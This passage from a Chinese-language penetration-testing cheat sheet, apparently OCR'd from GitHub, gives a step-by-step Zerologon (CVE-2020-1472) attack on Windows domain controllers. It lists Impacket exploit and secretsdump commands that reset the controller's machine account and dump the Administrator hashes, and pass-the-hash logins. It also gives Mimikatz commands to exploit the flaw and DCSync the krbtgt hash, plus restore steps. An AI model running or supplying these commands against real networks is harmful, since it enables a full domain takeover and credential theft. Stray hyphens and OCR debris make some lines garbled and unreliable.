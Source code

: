 ##### 地址解析协议

实在搞不定再搞ARP

##### zerologon漏洞

```

python3 cve-2020-1472-exploit.py <MACHINE\_BIOS\_NAME> <ip>-
-
secretsdump.py <DOMAIN>/<MACHINE\_BIOS\_NAME>\\$@<IP> -no-pass -just-dc-user "Administrator" -
-
secretsdump.py -hashes :<HASH\_admin> <DOMAIN>/Administrator@<IP>-
-
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE\_BIOS\_NAME>@<MACHINE\_BIOS\_NAME> -hexpass <HEXPASS>-

[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)
```


\*\*1、利用Mimikatz \*\*check

1-

lsadump::zerologon /target:dc1.exploit.local /account:dc1$-

**exploit**

1-

lsadump::zerologon /target:dc1.exploit.local /account:dc1$ /exploit-

**dcsync**

1-

lsadump::dcsync /dc:dc1.exploit.local /authuser:dc1$ /authdomain:exploit.local /authpassword:"" /domain:exploit.local /authntlm /user:krbtgt-

**restore**

1-

lsadump::postzerologon /target:conttosson.locl /account:dc$ -

**2、利用impacket：**

*   取目标主机名+IP
*   install 修改版本的impacket
*   Exp

1-

python cve-2020-1472-exploit.py DC2008 10.211.55.200-

[![img](https://image.cubox.pro/article/2022021014463047997/85730.jpg)](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)

